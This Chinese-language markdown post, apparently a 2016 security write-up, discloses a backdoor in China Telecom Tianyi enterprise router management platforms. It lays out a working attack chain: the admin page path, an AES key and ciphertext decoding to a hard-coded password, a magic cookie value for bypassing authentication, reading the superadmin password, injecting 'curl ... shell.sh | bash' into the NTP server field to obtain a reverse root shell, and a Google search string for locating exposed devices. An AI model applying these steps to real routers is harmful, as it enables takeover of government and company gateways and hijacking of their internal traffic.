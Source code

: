 ```yaml
---
title: China Telecom Tianyi Route Backdoor
date: 2016-07-04 23:37:24
tags: Backdoor
---
```


### 介绍
电信天意宽带政企平台是电信给政府和企业做的一款设备（外包给中兴做的），其包括VPN、用户上网行为管理等功能。覆盖全上海乃至南方数个城市数万企业与政府网关设备，通过这个后门可直接获取路由器超级管理员账号密码，并取得路由器系统root权限，进而劫持企业内部流量。

### 访问地址
> 后台地址图标为天翼宽带，地址如下：

```
http://ip:port/set/index.html
```
### 获取密码
```
key:
    123456789abcdef03456789abcdef01256789abcdef01234789abcdef0123456
Data:
    820ff917fff0407f6dc8d69e09c78723
```
[解密地址](http://extranet.cryptomathic.com/aescalc/index)
```
Output:
    636F6E66696700000000000000000000
hex decode:
    config      //password
```
### 添加Cookie字段值
```
bizstore_note=zte
```
### 获取超级管理员密码
编辑telecomadmin用户右击审查元素查看密码值

### 命令执行反弹shell
```
系统管理 >> 时间管理 >> NTP服务器1: `curl http://**.**.**.**/shell.sh | bash`

```

### Google search
```
intitle:管理平台登陆
```

